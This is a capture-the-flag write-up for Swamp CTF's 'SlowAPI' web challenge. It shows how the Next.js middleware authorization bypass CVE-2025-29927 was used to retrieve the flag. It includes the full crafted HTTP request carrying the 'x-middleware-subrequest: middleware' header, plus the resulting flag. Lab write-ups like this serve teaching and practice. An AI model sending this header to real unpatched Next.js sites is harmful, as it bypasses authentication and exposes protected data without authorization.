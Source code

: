# SlowAPI - Swamp CTF

## Category: Web Exploitation

### Description
The Gator Research Institute requested an application to be developed. To explore new technologies, I decided to base the implementation on Next.js. However, authentication has not yet been implemented, which may allow unauthorized access.

🔗 **Challenge URL:** [http://chals.swampctf.com:43611/](http://chals.swampctf.com:43611/)

### Analysis
Upon visiting the website, an interesting endpoint was discovered:  

```
http://chals.swampctf.com:43611/flag
```

![Screenshot of the denied access](images/slowapi1.png)

Access to this endpoint was denied. Given the challenge description, it was suspected that the application used Next.js. Recent research revealed a Next.js vulnerability, **CVE-2025-29927**, which allows bypassing authorization checks by sending an HTTP request with the `x-middleware-subrequest` header.

### Exploitation
To successfully exploit this vulnerability, the actual API endpoint had to be identified. Using the browser's Developer Tools, the network requests were analyzed, revealing that the flag was located at:

```
/api/protected/flag
```

![Screenshot of Developer Tools](images/slowapi.png)

Using Burp Suite, an HTTP request was crafted to include the required header:

```
GET /api/protected/flag HTTP/1.1
Host: chals.swampctf.com:43611
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-middleware-subrequest: middleware
```

This bypassed the authorization check, returning the flag.

```
flag":"swampCTF{b3w4r3_th3_m1ddl3w4r3}
```

![Screenshot of Burp Suite Exploit](images/slowapi3.png)
